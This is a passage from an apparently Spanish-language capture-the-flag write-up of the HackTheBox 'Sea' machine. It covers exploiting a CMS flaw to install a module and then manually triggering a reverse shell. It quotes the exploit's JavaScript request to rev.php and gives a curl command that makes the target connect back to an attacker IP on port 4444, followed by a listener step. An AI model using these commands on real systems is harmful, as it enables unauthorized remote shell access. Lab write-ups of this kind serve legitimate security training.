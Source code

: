 ![image](/assets/images/Maquinas/Sea/codeExploit.png)

Lo que el exploit hace es instalar un modulo por medio de alguna falla del CMS, y luego hace los pasos que se ven en la imagen.

Pero al ejecutar el exploit no nos da nada, así que haremos el último paso manualmente.

Tenemos en el código:
`xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);`

Intentaremos hacer esto con curl:

`curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.215&lport=4444"`

Ahora nos ponemos en escucha por el puerto 4444:

![image](/assets/images/Maquinas/Sea/listener.png)

Ahora ejecutamos la petición que hicimos con curl:

